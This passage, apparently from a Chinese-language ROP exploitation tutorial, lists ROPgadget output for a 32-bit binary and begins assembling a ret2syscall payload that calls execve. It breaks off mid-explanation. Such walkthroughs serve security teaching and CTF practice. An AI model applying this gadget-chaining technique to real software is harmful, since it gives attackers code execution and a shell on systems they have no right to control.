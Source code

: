 ```sh
0x08049bff : pop edi ; pop ebp ; ret 8
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0805c508 : pop edi ; pop esi ; ret
0x0804846f : pop edi ; ret
0x08049a1b : pop edi ; ret 4
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0806eb6a : pop edx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080671ea : pop es ; pop edi ; ret
0x0806742a : pop es ; ret
0x08092259 : pop esi ; pop ebp ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x0804838c : pop esi ; pop edi ; pop ebp ; ret
0x080a9a43 : pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a27 : pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d74 : pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048548 : pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfe : pop esi ; pop edi ; pop ebp ; ret 8
0x0804846e : pop esi ; pop edi ; ret
0x08049a1a : pop esi ; pop edi ; ret 4
0x08049a95 : pop esi ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080bb146 : pop esp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
0x080639f9 : pop ss ; ret 0x2c73
0x080643ba : pop ss ; ret 0x3273
0x080639e4 : pop ss ; ret 0x3e73
0x080643a0 : pop ss ; ret 0x4c73
0x080639cf : pop ss ; ret 0x5073
0x080639ba : pop ss ; ret 0x6273
0x08064386 : pop ss ; ret 0x6673
0x08061f05 : pop ss ; ret 0x830f
```

4. 根据`execve()`函数的汇编代码，我们需要找到以下几个`gadget`片段

- `pop eax; ret`
- `pop ebx; ret`
- `pop ecx; ret`
- `pop edx; ret`

省略寻找过程，我们最后可以得到以下结果

- `pop eax; ret` => `0x080bb196`
- `pop ecx; pop ebx; ret` => `0x0806eb91`

- `pop edx; ret` => `0x0806eb6a`

5. 找到需要的`gadget`后，开始拼接`payload`

- 程序首先执行`pop eax; ret`，在栈上，`EIP`指向`pop eax`，`ESP`指向`pop eax; ret`的高一位地址，该地址的值就是将要`pop eax`的内容，因此栈上填入`0xb`
